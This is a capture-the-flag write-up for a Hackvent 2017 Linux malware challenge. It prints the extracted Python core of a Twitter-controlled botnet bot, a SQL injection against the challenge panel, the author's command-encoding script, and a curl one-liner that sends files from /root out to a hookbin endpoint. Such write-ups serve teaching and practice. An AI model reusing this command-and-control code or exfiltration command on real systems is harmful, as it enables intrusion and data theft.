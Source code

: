 # Day 20: linux malware

*oh boy, this will go wrong... =D*

**ohai** my name is muffinx...
...um yeah btw. cyberwar just started and you should just pwn everyone?


Make sure you don't leave traces and make the lifes of your opponents harder, but fairplay!

You are a hacker? Then think like a hacker!  
**Attack! Defend! And trick!**

Ladies and gentlemen,  
We understand that you  
Have come tonight  
To bear witness to the sound  
Of drum And Bass

We regret to announce  
That this is not the case,  
As instead  
We come tonight to bring you  
The sonic recreation of the end of the world.

Ladies and gentlemen,  
Prepare  
To hold  
Your  
Colour

OK.  
Fuck it,  
I lied.  
It's drum and bass.  
What you gonna do? 

**WARNING:**  
RUN INSIDE VM, THIS CONTAINER MAYBE DANGEROUS FOR YOUR SYSTEM,  
WE TAKE NO RESPONSIBILITY

You should keep the container inside the same host your haxxing on (same ip) or some things will not work...

`https://hub.docker.com/r/muffinx/hackvent17_linux_malware/`

Hint #1: check https://hub.docker.com/r/muffinx/hackvent17_linux_malware/ for regular updates, keep the container running (on the same ip) when you are haxxing the bot panel  
Hint #2: you can also use https://hookbin.com/ to create private endpoints

### Solution

I have to say I really enjoyed this challenge. Good work, muffinX!

OK, first things first. I pulled the docker image and analyzed it a bit.

```bash
$ docker pull muffinx/hackvent17_linux_malware
$ docker inspect muffinx/hackvent17_linux_malware | grep -A 2 Entrypoint
            "Entrypoint": [
                "./root/loopz.py"
            ],
```

Before actually running it I took a look inside the container to see what's in there.

```bash
$ docker run -i -t --entrypoint=/bin/bash --user=0 muffinx/hackvent17_linux_malware
$ ls /root
bot  checker.py  loopz.py  party.py
```

I copied files located in root's home outside the container for further analysis.

```bash
$ docker run muffinx/hackvent17_linux_malware &
[1] 25202
$ docker ps
CONTAINER ID        IMAGE                              COMMAND             CREATED             STATUS              PORTS               NAMES
94978f1117d5        muffinx/hackvent17_linux_malware   "./root/loopz.py"   5 seconds ago       Up 5 seconds                            cocky_northcutt
$ docker cp 94978f1117d5:/root/bot .
$ docker cp 94978f1117d5:/root/checker.py .
$ docker cp 94978f1117d5:/root/loopz.py .
$ docker cp 94978f1117d5:/root/party.py .
```

Then I inspected those files.

* [bot](files/bot "bot") - 64-bit ELF binary of the bot
* [checker.py](files/checker.py "checker.py") - looks like some heart-beat script which gets `nonce` from [challenges site](http://challenges.hackvent.hacking-lab.com:8081) which is sent bact after 2 seconds
* [loopz.py](files/loopz.py "loopz.py") - simple scheduler script which executes bot binary every 3 seconds
* [party.py](files/party.py "party.py") - purpose of this script is to create random files and directories to distract

I focused on the ELF binary. After decompiling it I realized it unwraps itself (series of ELF binary and Python script layers) using hidden temporary files in `/tmp`. I wrote a simple [bash script](files/capture.sh) which helped me to capture those [layers](files/bot_layers).

The only interesting layer was the [last one](files/bot_layers/7.yVYaePVLvLWESIaMYqVWaXHSjlimNAau), the other ones were just wrappers. It contained a python script hidden inside manual page of `ping` command.

This is the bot's core Python [script](files/bot.py) extracted from the last layer:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import base64, os, re, urllib2
from easyprocess import EasyProcess

os.system('./checker.py')

def x(t): return ''.join([ chr(ord(t[i]) ^ [0x66, 0x66, 0x66, 0x13, 0x37, 0x42, 0x69, 0x33, 0x01, 0x13] [i % 10]) for i in range(len(t)) ])

def ok_cool(c):
    try:
        c = x( base64.b64decode(c))
        EasyProcess(c).call(timeout=2)
    except: pass

def wtf(n):
    t =  base64.b64decode('aHR0cHM6Ly90d2l0dGVyLmNvbS8=') + n #b64decoded: 'https://twitter.com/'
    cs = []

    try:
        c_txt = urllib2.urlopen(t).read()
        cs = re.findall(base64.b64decode('VHdlZXRUZXh0U2l6ZSguKik8L3A='), c_txt) #b64decoded: 'TweetTextSize(.*)</p'
    except: pass

    for c in cs:
        try:
            c = c[c.index('>')+1:]
            if '<a href="/muffiniks" class="twitter-atreply pretty-link js-nav" dir="ltr" data-mentioned-user-id="764117042274373632" ><s>@</s><b>muffiniks</b></a>' in c and ' <a href="/hashtag/hackvent?src=hash" data-query-source="hashtag_click" class="twitter-hashtag pretty-link js-nav" dir="ltr" ><s>#</s><b>hackvent</b></a>' in c and ' rel="nofollow noopener" dir="ltr" data-expanded-url="http://hackvent.hacking-lab.com" class="twitter-timeline-link" target="_blank" title="http://hackvent.hacking-lab.com" ><span class="tco-ellipsis"></span><span class="invisible">http://</span><span class="js-display-url">hackvent.hacking-lab.com</span><span class="invisible"></span><span class="tco-ellipsis"><span class="invisible">&nbsp;</span></span></a> ' in c:
                c = c[c.index(base64.b64decode('TVVGRklOX0JPVE5FVDo='))+len( base64.b64decode('TVVGRklOX0JPVE5FVDo=')):] # b64decoded: 'MUFFIN_BOTNET:'
                c = c[:c.index(base64.b64decode('Ok1VRkZJTl9CT1RORVQ='))] # b64decoded: ':MUFFIN_BOTNET'
                ok_cool(c)
        except: pass

def ohai():
    ns = []
    try:
        n_txt = urllib2.urlopen( base64.b64decode('aHR0cDovL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjgwODEvP3R3aXR0ZXI=')).read() # b64decoded: 'http://challenges.hackvent.hacking-lab.com:8081/?twitter'
        ns = list(set([n for n in n_txt.split('|') if len(n) > 1]))
    except: pass
    for n in ns: wtf(n)

ohai()
```

After a quick code analysis I found this:
* `ohai()` functions grabs Twitter account names listed on the [challenge's panel](http://challenges.hackvent.hacking-lab.com:8081/?twitter)
* each name is then passed to `wtf()` function which searches for tweets with specified format and extracts encoded commands from these tweets
* `ok_cool()` decodes commands end executes them

Pretty simple. Next step was to figure out how to add my account name to the list to be able to send commands to the botnet. I looked at the [site panel](http://challenges.hackvent.hacking-lab.com:8081/) which contained an embedded YouTube video and just under it there was a hidden form where I could submit a password. I tried a simple SQL injection to see if it's vulnerable.

I entered `a' --` as a password and got this interesting response:

```
[-] query failed : SELECT AES_ENCRYPT('a' --','muffin_botz_hax_pw') AS enc FROM passwords
```

So I employed `sqlmap` tool to do a blind time-based SQLi to get admin's password in its encrypted form and then I decrypted it with the key `muffin_botz_hax_pw`. The password was `this_pw_is_so_eleet`.

I submited it and got to the next hidden form where I was able to add my Twitter account name to the list.

Then I wrote a simple [script](files/encode_cmd.py) based on knowledge how the bot works to encode my commands to the expected message format.

```python
#!/usr/bin/env python

import base64, sys

def x(t): return ''.join([ chr(ord(t[i]) ^ [0x66, 0x66, 0x66, 0x13, 0x37, 0x42, 0x69, 0x33, 0x01, 0x13] [i % 10]) for i in range(len(t)) ])

def decode(cmd): return x(base64.b64decode(cmd))
def encode(cmd): return base64.b64encode(x(cmd))

prefix = '@muffiniks #hackvent http://hackvent.hacking-lab.com  MUFFIN_BOTNET:'
suffix = ':MUFFIN_BOTNET'

cmd = str(sys.argv[1])

print(prefix + encode(cmd) + suffix)
```

At that point a had control over the botnet and was able to send commands. The last step was to find the right command to get the flag from the challenge server which was part of the botnet. I prepared my [hookbin](https://hookbin.com/) to capture all botnet responses and since I knew challenge server's IP from a DNS lookup I filtered captured responses to IP `80.74.140.188`.

I used following command to find the flag in root's home and send it back to my hookbin.

``` bash
sh -c 'grep -R HV17- /root | base64 -w 0 | curl -d @- https://hookb.in/ZYAg8reb'
```

Encoded it to a tweet:

```bash
$ ./encode_cmd.py "sh -c 'grep -R HV17- /root | base64 -w 0 | curl -d @- https://hookb.in/ZYAg8reb'"
@muffiniks #hackvent http://hackvent.hacking-lab.com  MUFFIN_BOTNET:FQ5GPlRiTlRzdhZGS0EXCj8CNj5GSRR8WDZJTyFxBxUDJQNiREQhI0YaRnBCMAUTLHdGJkszXzYdQ3IpSUkOfFgpCx1ofUk8P1JQehtWYzQ=:MUFFIN_BOTNET
```

Tweeted it and waited for the response from challenge server. This is what i got:

```
/root/secret:HV17-wh4t-4b0ut-n!x-m4l3w4re-4nd-cyberwarezzz?
```
